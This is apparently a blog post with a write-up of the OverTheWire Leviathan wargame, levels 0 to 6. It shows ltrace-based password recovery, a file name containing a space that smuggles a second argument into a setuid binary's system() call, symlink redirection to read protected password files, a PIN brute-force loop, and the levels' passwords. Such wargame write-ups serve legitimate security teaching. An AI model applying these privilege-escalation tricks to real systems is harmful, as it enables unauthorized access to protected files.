 ```yaml
---
layout: post
title: Leviathan 1-7 Writeup
date: 2019-03-30
author: th3-3inst3in
comments: true
categories: overthewire
tags: [web,overthewire]
---
```



## About Leviathan

You do not need any programming knowledge or any sort of hacking knowledge. All you need to know is basic linux/unix CLI knowledge .
    
### Leviathan0

Login to the server with the following ssh creds

` Host: leviathan.labs.overthewire.org Port: 2223 `
* username: leviathan0
* password: leviathan0

You'll land in the home directory of user levathan0 quick _la -la_ you'll see a **.backup** folder cd in to it and you'll notice a file named _bookmarks.html_ cat that and grep for passowrd and you'll find the password for the next level.

![lev1]({{ site.giturl }}/MyCtfWriteups/assets/images/overthewire/lev1.png)

* * *


### Leviathan1

Using the same host + port  and password gotten from the last level login as user leviathan1.

Do a quick _ls -la_ and you see there is a binary named `check`

* -r-sr-x---  1 leviathan2 leviathan1 7452 Oct 29 21:17 check

```bash
leviathan1@leviathan:~$ ./check
password: testpass
Wrong password, Good Bye ...

leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd794, 0x8048610 <unfinished ...>
printf("password: ")                                                         = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: wrongpass
)                                        = 119
getchar(1, 0, 0x65766f6c, 0x646f6700)                                        = 114
getchar(1, 0, 0x65766f6c, 0x646f6700)                                        = 111
strcmp("wro", "sex")                                                         = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                         = 29
+++ exited (status 0) +++
leviathan1@leviathan:~$

```

So looks like our password is >**sex** 

#### About ltrace

`ltrace` s a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.

using the password we get a


```bash
leviathan1@leviathan:~$ ./check
password: sex
$ whoami
leviathan2

$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta

```


* * *


### Leviathan2

Using the same host + port  and password gotten from the last level login as user leviathan2.

```bash
leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename


leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...

```

Seems like there we can't read the leviathan3 file lets try creating a symlink to some directory that I( the user ) owns

```bash
leviathan2@leviathan:~$ mkdir /tmp/mytempdir
leviathan2@leviathan:~$ cd /tmp/mytempdir
leviathan2@leviathan:/tmp/mytempdir$ ln -s /etc/leviathan_pass/leviathan3
leviathan2@leviathan:/tmp/mytempdir$ ls
leviathan3

leviathan2@leviathan:/tmp/mytempdir$ /home/leviathan2/printfile leviathan3
You cant have that file...

leviathan2@leviathan:/tmp/mytempdir$ ltrace /home/leviathan2/printfile leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("leviathan3", 4)                                                = -1
puts("You cant have that file..."You cant have that file...
)                                     = 27
+++ exited (status 1) +++
leviathan2@leviathan:/tmp/mytempdir$ echo "test" > file.txt
leviathan2@leviathan:/tmp/mytempdir$ ltrace /home/leviathan2/printfile file.txt
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("file.txt", 4)                                                  = 0
snprintf("/bin/cat file.txt", 511, "/bin/cat %s", "file.txt")          = 17
geteuid()                                                              = 12002
geteuid()                                                              = 12002
setreuid(12002, 12002)                                                 = 0
system("/bin/cat file.txt"test
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                 = 0
+++ exited (status 0) +++

```

The sym link didnt help so what I did was used ltrace to find out what is actully happening in the background
It turns out that `access()` function is actually used to check and verify the user id. and then 
`snprintf()` is used to create a string which is then passed to `system()` to be executed as a system command & we can also see that cat is being used to read the file.

Searching for vulnerabilites in `access()` function I stumbled upon [this](https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole)

```bash
leviathan2@leviathan:/tmp/mytempdir$ ls
file  leviathan3
leviathan2@leviathan:/tmp/mytempdir$ touch "leviathan3 file"
leviathan2@leviathan:/tmp/mytempdir$ /home/leviathan2/printfile leviathan3\ file
Ahdiemoo1j
test
leviathan2@leviathan:/tmp/mytempdir$

```
Lets move on to the nex tone.


* * *


## Leviathan3

Using the same host + port  and password gotten from the last level login as user leviathan3.

```bash

leviathan3@leviathan:~$ ./level3
Enter the password>
bzzzzzzzzap. WRONG
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                       = -1
printf("Enter the password> ")                   = 20
fgets(Enter the password> test
"test\n", 256, 0xf7fc55a0)                 = 0xffffd5a0
strcmp("test\n", "snlprintf\n")                  = 1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                       = 19
+++ exited (status 0) +++
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
$

```


## leviathan4

Using the same host + port  and password gotten from the last level login as user leviathan4.


```bash
leviathan4@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root root        675 May 15  2017 .profile
dr-xr-x---  2 root leviathan4 4096 Oct 29 21:17 .trash
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ls
bin

leviathan4@leviathan:~/.trash$ ltrace ./bin
__libc_start_main(0x80484bb, 1, 0xffffd774, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")     = 0
+++ exited (status 255) +++

```

So looks like the binary returned is actully the key we just have to convert it in to  ascii I used the folloing [link](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

![Binary to ascii converion image]({{ site.giturl }}/MyCtfWriteups/assets/images/overthewire/lev4bin2ascii.png)


* * *

## leviathan5


```bash
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
leviathan5@leviathan:~$

```

Binary file was reading content of /tmp/file.log I just created a soft link of the flag file and named it file.log Simple right ?!


* * * 

## leviathan6

Just have to bruteforce a 4 digit pin in this challenge.

```bash
leviathan6@leviathan:~$ ls
leviathan6
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ for key in $(seq 0 10000); do ./leviathan6 $key; done

...
Wrong
Wrong
Wrong
Wrong
$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
$

```

* * *